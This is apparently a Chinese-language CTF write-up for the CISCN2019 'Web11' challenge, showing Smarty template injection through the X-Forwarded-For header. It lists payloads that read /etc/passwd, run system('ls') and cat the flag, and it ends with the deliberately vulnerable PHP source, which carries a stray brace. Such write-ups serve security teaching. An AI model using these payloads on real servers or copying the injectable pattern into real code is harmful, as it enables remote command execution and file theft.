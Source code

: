 # \[CISCN2019 华东南赛区]Web11

## \[CISCN2019 华东南赛区]Web11

## 考点

* Smarty SSTI

## wp

其实是给了提示的，在请求头中加`XFF`，并且是smarty框架，smarty很经典的考点就是SSTI

![](<../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png>)

burp抓包改XFF存在回显

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png>)

然后尝试SSTI

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png>)

再按照下图方法判断SSTI类型

![](../../.gitbook/assets/8sFfzWRJrj.png)

是Smarty SSTI

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png>)

Smarty支持使用`{php}{/php}`标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。但是在<mark style="color:red;">Smarty3中已经废弃{php}标签</mark>。在Smarty 3.1中，`{php}`仅在SmartyBC中可用。

利用方法：

1. `{self::getStreamVariable("file:///etc/passwd")}`在3.1.30版本删除
2. `{if phpinfo()}{/if}`
3. `{{system('ls')}}`

payload：`{{system('cat /flag')}}`

## 小结

1. smarty SSTI源码

```php
<?php

require_once('./smarty/libs/' . 'Smarty.class.php');

$smarty = new Smarty();

$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];

$smarty->display("string:".$ip);

}
```
